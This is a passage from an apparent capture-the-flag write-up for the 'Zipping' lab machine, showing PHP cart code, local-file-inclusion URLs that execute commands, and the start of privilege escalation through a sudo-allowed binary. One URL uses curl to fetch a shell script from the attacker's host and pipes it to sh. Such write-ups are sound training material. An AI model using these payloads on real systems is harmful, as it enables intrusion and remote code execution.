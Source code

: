 ```php
                    // Product exists in cart so just update the quanity
                    $_SESSION['cart'][$product_id] += $quantity;
                } else {
                    // Product is not in cart so add it
                    $_SESSION['cart'][$product_id] = $quantity;
                }
            } else {
                // There are no products in cart, this will add the first product to cart
                $_SESSION['cart'] = array($product_id => $quantity);
            }
        }
        // Prevent form resubmission...
        header('location: index.php?page=cart');
        exit;
    }
}
```

- http://10.10.11.229/shop/index.php?page=/var/lib/mysql/b&cmd=id
- http://10.10.11.229/shop/index.php?page=/var/lib/mysql/b&cmd=curl 10.10.14.118/shell.sh | sh 

![image-20231124162652794](./Zipping.assets/image-20231124162652794.png)

## Privilege Escalation

### rektsu -> root

- `sudo -l` -> `sudo /usr/bin/stock`

```bash
rektsu@zipping:/var/www/html/shop$ sudo -l                             
sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock  
```
